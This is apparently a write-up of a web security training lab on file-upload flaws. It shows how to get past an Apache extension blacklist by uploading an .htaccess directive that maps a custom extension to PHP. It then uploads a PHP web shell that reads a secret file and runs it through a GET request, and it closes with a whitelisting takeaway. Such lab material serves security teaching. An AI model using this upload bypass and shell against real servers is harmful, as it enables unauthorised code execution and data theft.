









# Lab 4 — Web Shell Upload via Extension Blacklist Bypass

> [← Back to File Upload Vulnerabilities](../README.md)

---

## 🎯 Objective
The server runs Apache and blocks PHP uploads by extension. Bypass it by uploading a `.htaccess` file that maps a custom extension to the PHP handler, then upload and execute the shell.

---

## 🪜 Steps

### Step 1 — Login
Credentials: `wiener:peter`



---

### Step 2 — Upload a normal image
Upload a `.jpg` to understand the normal flow.



---

### Step 3 — Try uploading PHP — blocked
Error: `php files are not allowed`


---

### Step 4 — Capture upload request in Burp
Find `POST /my-account/avatar`. Note the server is **Apache** — this is key.



---

### Step 5 — Upload `.htaccess` to configure custom PHP extension
In Burp Repeater, modify the upload request:
```
filename=".htaccess"
Content-Type: text/plain
```
Body content:
```
AddType application/x-httpd-php .133t
```
This tells Apache: *treat any `.133t` file as PHP*.



---

### Step 6 — Upload the exploit with custom extension
Now upload your web shell with the custom extension:
```
filename="exploit.133t"
Content-Type: application/x-httpd-php
```
Body:
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```



---

### Step 7 — Execute the payload
Request:
```
GET /files/avatars/exploit.133t
```




---

### Step 8 — Submit solution ✅
Copy secret → Submit → Lab solved!




---

## ✅ Result
Lab solved!

---

## 💡 Key Takeaway
Blacklisting file extensions is bypassable on Apache servers using `.htaccess`. The only safe approach is a strict whitelist of allowed extensions AND validating actual file content — not just the name.
